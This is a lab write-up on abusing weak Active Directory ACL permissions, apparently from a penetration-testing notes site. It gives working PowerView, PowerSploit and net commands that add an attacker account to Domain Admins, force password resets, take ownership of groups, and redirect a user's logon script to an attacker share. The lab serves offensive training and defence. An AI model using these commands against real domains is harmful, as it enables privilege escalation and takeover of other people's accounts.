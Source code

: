 # Abusing Active Directory ACLs/ACEs

## Context

In this lab I am exploring ways to abuse weak permissions of Active Directory Distrctionary Access Control Lists \(DACLs\) and their Acccess Control Entries \(ACEs\).

Active Directory objects such as users and groups are securable objects and DACL/ACEs define who can read/modify those objects. An example of ACEs for the "Domain Admins" securable object can be seen here:

![](../../.gitbook/assets/screenshot-from-2018-11-08-20-21-25.png)

Some of the Active Directory object permissions and types that we as attackers are interested in:

* **GenericAll** - full rights to the object \(add users to a group or reset user's password\)
* **GenericWrite** - update object's attributes \(i.e logon script\)
* **WriteOwner** - change object owner to attacker and have full control over the object
* **WriteDACL** - modify object's ACEs and give attacker full control right over the object
* **AllExtendedRights** - ability to add user to a group or reset password
* **ForceChangePassword** - ability to change user's password
* **Self \(Self-Membership\)** - ability to add yourself to a group

In this lab, we are going to explore and try to exploit most of the above ACEs.

## Execution

### GenericAll on User

Using powerview, let's check what our attacking user   
\(`identityReference`\) `spotless` can do the victim user `delegate`:

```csharp
Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.ActiveDirectoryRights -eq "GenericAll"}  
```

We can see that effectively the attacker can do almost anything to the AD object:

![](../../.gitbook/assets/screenshot-from-2018-11-07-20-19-43.png)

We try reseting the user's password without knowing their current password:

![](../../.gitbook/assets/screenshot-from-2018-11-07-20-21-30.png)

### GenericAll on Group

Let's see if "Domain admins" group has any weak permissions. First of, let's get its `distinguishedName`:

```csharp
Get-NetGroup "domain admins" -FullData
```

![](../../.gitbook/assets/screenshot-from-2018-11-08-09-50-20.png)

```csharp
 Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local"}
```

We can see that our attacking user spotless has `GenericAll` rights:

![](../../.gitbook/assets/screenshot-from-2018-11-08-09-52-10.png)

Effectively, this allows us to add ourselves to the `Domain Admin` group:

```csharp
net group "domain admins" spotless /add /domain
```

![](../../.gitbook/assets/peek-2018-11-08-10-07.gif)

Same could be achieved with Active Directory or PowerSploit module:

```csharp
# with active directory module
Add-ADGroupMember -Identity "domain admins" -Members spotless

# with Powersploit
Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
```

### WriteProperty on Group

If our controlled user has `WriteProperty` right on `All` objects on `Domain Admin` group:

![](../../.gitbook/assets/screenshot-from-2018-11-08-11-11-11.png)

We can again add ourselves to the `Domain Admins` group and escalate privileges:

```csharp
net user spotless /domain; Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"; net user spotless /domain
```

![](../../.gitbook/assets/screenshot-from-2018-11-08-11-06-32.png)

### Self \(Self-Membership\) on Group

Another privilege that enables the attacker adding themselves to a group:

![](../../.gitbook/assets/screenshot-from-2018-11-08-11-23-52.png)

```csharp
net user spotless /domain; Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"; net user spotless /domain
```

![](../../.gitbook/assets/screenshot-from-2018-11-08-11-25-23.png)

### WriteProperty \(Self-Membership\)

One more privilege that enables the attacker adding themselves to a group:

```csharp
Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local" -and $_.IdentityReference -eq "OFFENSE\spotless"}
```

![](../../.gitbook/assets/screenshot-from-2018-11-08-15-21-35.png)

```csharp
net group "domain admins" spotless /add /domain
```

![](../../.gitbook/assets/screenshot-from-2018-11-08-15-22-50.png)

### **ForceChangePassword**

If we have `ExtendedRight` on `User-Force-Change-Password` object, we can reset the user's password without knowing their current password:

```csharp
Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
```

![](../../.gitbook/assets/screenshot-from-2018-11-08-12-30-11.png)

Doing the same with powerview:

```csharp
Set-DomainUserPassword -Identity delegate -Verbose
```

![](../../.gitbook/assets/screenshot-from-2018-11-08-12-31-52.png)

Another method that does not required fiddling with password string conversion:

```csharp
$c = Get-Credential
Set-DomainUserPassword -Identity delegate -AccountPassword $c.Password -Verbose
```

![](../../.gitbook/assets/screenshot-from-2018-11-08-14-11-25.png)

...or a one liner if no interactive session is available:

```csharp
Set-DomainUserPassword -Identity delegate -AccountPassword (ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```

![](../../.gitbook/assets/screenshot-from-2018-11-08-12-58-25.png)

### WriteOwner on Group

Note how before the attack the owner of "Domain Admins" is "Domain Admins":

![](../../.gitbook/assets/screenshot-from-2018-11-08-16-45-36.png)

After ACE enumeration, if we find that a user in our control has `WriteOwner` rights on `ObjectType:All`

```csharp
Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local" -and $_.IdentityReference -eq "OFFENSE\spotless"}
```

![](../../.gitbook/assets/screenshot-from-2018-11-08-16-45-42.png)

...we can change the `Domain Admins` object's owner to our user, which in our case is `spotless`. Note that the SID specified with `-Identity` is the SID of the `Domain Admins` group:

```csharp
Set-DomainObjectOwner -Identity S-1-5-21-2552734371-813931464-1050690807-512 -OwnerIdentity "spotless" -Verbose
```

![](../../.gitbook/assets/screenshot-from-2018-11-08-16-54-59.png)

### GenericWrite on User

```csharp
Get-ObjectAcl -ResolveGUIDs -SamAccountName delegate | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
```

![](../../.gitbook/assets/screenshot-from-2018-11-08-19-12-04.png)

`WriteProperty` on a specific `ObjectType`, which in this case is `Script-Path` allows us to simply overwrite the logon script path of the `delegate` user, so that when the next time they logon, their system will execute our malicious script:

```csharp
Set-ADObject -SamAccountName delegate -PropertyName scriptpath -PropertyValue "\\10.0.0.5\totallyLegitScript.ps1"
```

Below shows the user's ~~`delegate`~~ logon script field got updated in the AD:

![](../../.gitbook/assets/screenshot-from-2018-11-08-19-13-45.png)

## References

{% embed url="https://wald0.com/?p=112" %}

{% embed url="https://docs.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryrights?view=netframework-4.7.2" %}

